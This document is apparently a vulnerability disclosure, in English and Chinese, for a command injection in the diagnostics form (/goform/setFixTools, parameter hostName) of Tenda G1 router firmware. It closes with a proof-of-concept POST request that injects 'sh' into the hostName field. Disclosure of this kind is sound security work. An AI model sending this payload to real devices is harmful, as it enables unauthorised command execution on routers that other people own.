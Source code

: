 # Tenda G1_Command_injection

Vender ：Tenda

Firmware version:US_G1V1.0br_V15.11.0.16(9024)_CN_TDC.bin && US_G1V1.0&G3V3.0br_V15.11.0.17(9502)_CN_TDC.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com) && doudou.zhu@dbappsecurity.com.cn

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-3040.html && https://www.tenda.com.cn/download/detail-3108.html



#### Describe

 Some problems exist on the Tenda G1 router. In the diagnostics  /goform/setFixTools/ configuration interface, the command injection exists for the post parameter hostName

一些问题存在Tenda G1路由器上，在配置界面Diagnostics下/goform/setFixTools/，其post参数hostName存在命令注入

#### Detail

In IDA  the formsetnetchecktools function is called as follows( the file is httpd )

在IDA中formSetNetCheckTools函数有如下调用

<img src="./img/image-20210919131609946.png" alt="image-20210919131609946" style="zoom:50%;" />

follow-up cmd_get_ping_out_put ruction

跟进cmd_get_ping_out_put

<img src="./img/image-20210919131745039.png" alt="image-20210919131745039" style="zoom:50%;" />



#### TEST



<img src="./img/image-20210919131508474.png" alt="image-20210919131508474" style="zoom:50%;" />

<img src="./img/image-20210919131354946.png" alt="image-20210919131354946" style="zoom:50%;" />



<img src="./img/image-20210919131450157.png" alt="image-20210919131450157" style="zoom:50%;" />



#### POC

```
POST /goform/setFixTools HTTP/1.1

Host: 192.168.10.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0

Accept: text/plain, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 71

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/sysManage/sysTool.html?0.8581860712391024

Cookie: _:USERNAME:_=; G3v3_user=

networkTool=1&hostName=aaa;sh;192.168.10.1&packageNum=4&packageSize=100
```


